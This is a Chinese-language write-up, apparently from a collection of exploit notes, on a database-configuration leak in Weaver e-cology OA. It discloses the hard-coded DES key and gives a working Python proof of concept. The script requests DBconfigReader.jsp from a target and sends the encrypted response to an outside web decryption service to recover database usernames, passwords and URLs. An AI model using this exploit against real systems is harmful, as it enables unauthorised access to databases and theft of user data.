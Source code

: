 # 泛微OA e-cology 数据库配置信息泄漏漏洞

## 漏洞描述

2019年10月24日，360CERT监测到友商发布了泛微e-cology OA数据库配置信息泄漏漏洞预警，漏洞等级中。

攻击者可通过存在漏洞的页面直接获取到数据库配置信息。如果攻击者可直接访问数据库，则可直接获取用户数据，甚至可以直接控制数据库服务器。

360CERT判断漏洞等级为中，危害面/影响面低。建议使用泛微e-cology OA的用户及时安装最新补丁，以免遭受黑客攻击。

## 影响版本

> [!NOTE]
>
> 目前已知为8.100.0531,不排除其他版本，包括不限于EC7.0、EC8.0、EC9.0版

## 漏洞复现

根据源码可以得到DES密钥为 1z2x3c4v5b6n（也有1z2x3c4v的,可以按此规律来爆破）

![](image/fanwei-8.png)

可以看到会将当前连接数据库的用户名密码，url，logintype等信息进行des加密，并最终进行返回，可以直接通过des解密获取泄露信息。

## 漏洞利用POC

[Github链接](https://github.com/ianxtianxt/ecologyExp.jar)

python代码

```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://xxx.xxx.xxx.xxx:8888//mobile/DBconfigReader.jsp'
print req(url)
```

## 参考文章

[[更新]泛微e-cology OA数据库配置信息泄漏漏洞预警](https://mp.weixin.qq.com/s/zTEUan_BtDDzuHzmd9pxYg)